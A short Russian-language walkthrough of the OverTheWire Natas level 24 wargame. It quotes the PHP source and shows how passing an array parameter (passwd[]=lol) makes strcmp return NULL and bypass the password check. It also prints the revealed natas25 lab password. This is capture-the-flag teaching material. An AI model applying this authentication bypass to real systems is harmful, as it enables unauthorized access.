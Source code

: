 ```php
<?php
if(array_key_exists("passwd",$_REQUEST)){
	if(!strcmp($_REQUEST["passwd"],"<censored>")){
		echo "<br>The credentials for the next level are:<br>";
		echo "<pre>Username: natas25 Password: <censored></pre>";           }
	else{
		echo "<br>Wrong!<br>";
		}
	}
?>
```
очевидно что, задача состоит в том, чтобы strcmp
это произойдет в случае если passwd будет такой же, как и на сервере
ЛИБО
как указано тут в комментариях:
https://www.php.net/manual/ru/function.strcmp.php
```php
strcmp("foo", array()) => NULL + PHP Warning
```
если одна из переменных будет массивом
для этого сделаем следующий пэйлоуд
```url
http://natas24.natas.labs.overthewire.org/?passwd[]=lol
```

и получаем результат
**Warning**: strcmp() expects parameter 1 to be string, array given in **/var/www/natas/natas24/index.php** on line **23**  
  
The credentials for the next level are:  

Username: natas25
Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
